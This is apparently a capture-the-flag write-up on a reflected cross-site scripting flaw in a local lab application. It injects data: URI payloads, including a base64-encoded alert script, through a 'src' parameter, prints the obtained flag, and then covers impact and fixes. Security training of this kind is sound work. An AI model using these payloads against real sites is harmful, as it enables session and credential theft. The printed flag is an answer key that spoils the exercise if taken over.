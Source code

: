 # Reflected Cross-Site Scripting

## 1. How did i spot the Vulnerability?

First, I searched for parameters that can be controlled using this command (or you can search manually with Ctrl + U):

```bash
curl http://localhost:8080/index.php | grep -E "media|admin|login|id|src"
```

I noticed that most of the lines are hardcoded HTML and static files from the server that cannot be controlled.

However, I found this: `href="?page=media&src=nsa"`

This parameter can be changed and the server will read and execute it.

Visiting this URL: `http://localhost:8080/index.php?page=media&src=nsa` shows this text: `File: nsa_prism.jpg`

Let's test with another filename: `http://localhost:8080/index.php?page=media&src=test`

**Result:** `404 Not Found` - This means the server is verifying whether the file exists.

Let's inject text: `http://localhost:8080/index.php?page=media&src=text`

**Result:** Again `404 Not Found` - The server treats the HTML code like a filename and checks if it exists.

Now let's test Data URIs (Uniform Resource Identifier).

**What is a URI?**  
A URI is the general term for any string that identifies a resource. URL and URN are the two types of URIs: URL tells you where to find something and how to get it, while URN just gives it a unique name. Data URIs allow embedding content directly in the URL instead of fetching it from a file.

**Injecting plain text:**  
`http://localhost:8080/index.php?page=media&src=data:text/plain,Hello`

**Result:** The text is displayed, meaning content can be embedded.

**Injecting HTML:**  
`http://localhost:8080/index.php?page=media&src=data:text/html,<h1>TEST</h1>`

**Result:** HTML can also be embedded.

**Injecting JavaScript:**  
`http://localhost:8080/index.php?page=media&src=data:text/html,<script>alert(1)</script>`

**Result:** Alert box pops up!

**XSS vulnerability confirmed.**

(XSS (Cross-Site Scripting) is an attack where you inject malicious JavaScript code into a website that runs in other users' browsers.)

Now let's try injecting JavaScript code with Base64 encoding like: `<script>alert(1)</script>`

(Base64 is an encoding method that converts binary data or any text into ASCII characters that are safe to use in URLs.)

On terminal:
```bash
echo -n '<script>alert(1)</script>' | base64
```

Then testing with it:
```
http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

**Flag obtained:** `928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`

---

## 2. What is the vulnerability?

Reflected Cross-Site Scripting (XSS) - the application accepts user-controlled input through the `src` parameter and embeds it directly into the HTML response without sanitization or validation.

## 3. Why does it exist (the security flaw)?

The application fails to restrict dangerous URI schemes like `data:` and doesn't sanitize user input before embedding it in HTML. 

## 4. What could the impact be?

- Session hijacking by stealing authentication cookies
- Credential theft through fake login forms
- Phishing attacks and social engineering

## 5. How to fix it (patch)?

- Sanitize and validate all user input before embedding in HTML
- Implement Content Security Policy (CSP) headers to restrict script execution

## 6. Vulnerability classification (OWASP)?

**A03 - Injection** (specifically Cross-Site Scripting)